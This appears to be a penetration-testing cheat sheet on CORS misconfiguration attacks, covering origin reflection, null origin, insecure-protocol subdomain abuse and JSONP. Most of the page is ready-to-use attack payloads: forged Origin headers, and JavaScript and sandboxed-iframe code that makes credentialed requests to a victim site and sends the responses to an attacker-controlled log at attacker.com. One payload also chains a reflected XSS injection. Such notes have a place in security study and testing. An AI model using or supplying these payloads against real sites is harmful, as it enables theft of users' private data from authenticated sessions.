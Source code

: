 ```yaml
---
title: CORS (Cross-Origin Resource Sharing) Attack
description: CORS is a mechanism that allows restricted resources on a web page to be requested from another domain outside the domain from which the first resource was served. The CORS Attack is the attacking methodology that abuses this mechanism.
tags:
    - Web
refs:
date: 2023-02-09
draft: false
---
```


## Origin Reflection

### 1. Change Origin Value of Request Header

```sh
Origin: https://attacker.com
```

```sh
Origin: https://vulnerable.com.attacker.com
```

### 2. Check if the Response Allowing Cross-Origin

It's reflected the previous reqeust in the response header, you can exploit it.

```sh
Access-Control-Allow-Origin: https://attacker.com
```

```sh
Access-Control-Allow-Origin: https://vulnerable.com.attacker.com
Access-Control-Allow-Credentials: true
```

### 3. Exploit with Your Malicious Web Page

For example, it's hosted as "https://attacker.com/exploit" or "https://vulnerable.com.attacker.com/exploit".  
Add the JavaScript code in the web page.  

It shows the users' sensitive information of the target website in your server's log.

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'https://vulnerable.com/details', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + this.responseText;
    }
</script>
```

<br />

## Null origin

### 1. Send Request with Origin: null

```sh
Origin: null
```

### 2. Check if the Response Allowing Cross-Origin

```sh
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

### 3. Add the iframe to Your Malicious Web Page

For example, it's hosted as "https://attacker.com/exploit".

```html
<iframe
    sandbox="allow-scripts allow-top-navigation allow-forms"
    srcdoc="<script>
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('GET', 'https://vulnerable.com/details', true);
        req.withCredentials = true;
        req.send();
        
        function reqListener() {
            location = 'https://attacker.com/log?key=' + encodeURIComponent(this.responseText);
        }
        </script>"
></iframe>
```

<br />

## Insecure Protocol

### 1. Send Request with Abbused Origin

```sh
Origin: http://subdomain.vulnerable.com
```

### 2. Check if the Response Allowing Cross-Origin

```sh
Access-Control-Allow-Origin: http://subdomain.vulnerable.com
Access-Control-Allow-Credentials: true
```

### 3. Add the JavaScript Code to Your Malicious Web Page

It's hosted as "https://attacker.com/exploit"

```html
<script>
    document.location="http://subdomain.vulnerable.com/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://vulnerable.com/details',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker.com/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

<br />

## JSONP (Json with Padding)

```html
<script>
	var userinfo = function (data) {
		alert(JSON.stringify(data));
	}
</script>
<script src="https://vulnerable.com/example.php?value=userinfo" type="text/javascriipt"></script>
```